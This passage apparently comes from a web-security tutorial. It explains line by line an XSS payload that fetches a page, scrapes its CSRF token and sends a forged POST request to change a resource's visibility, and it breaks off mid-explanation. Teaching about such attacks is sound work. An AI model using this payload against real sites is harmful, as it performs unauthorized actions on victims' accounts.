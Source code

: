 
Let us break things down for you.

Firstly we put the entire script in `<script>` tags, so it gets executed as valid JavaScript; otherwise, it will be rendered as text.

Code: javascript

```javascript
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
```

The script snippet above creates an ObjectVariable called _req_, which we will be using to generate a request. _var req = new XMLHttpRequest();_ is allowing us to get ready to send HTTP requests.

Code: javascript

```javascript
req.onload = handleResponse;
```

In the script snippet above, we see the _onload_ event handler, which will perform an action once the page has been loaded. This action will be related to the _handleResponse_ function that we will define later.

Code: javascript

```javascript
req.open('get','/app/change-visibility',true);
```

In the script snippet above, we pass three arguments. _get_ which is the request method, the targeted path _/app/change-visibility_ and then _true_ which will continue the execution.

Code: javascript

```javascript
req.send();
```

The script snippet above will send everything we constructed in the HTTP request.

Code: javascript

```javascript
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
```

The script snippet above defines a function called _handleResponse_.

Code: javascript

```javascript
var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
```
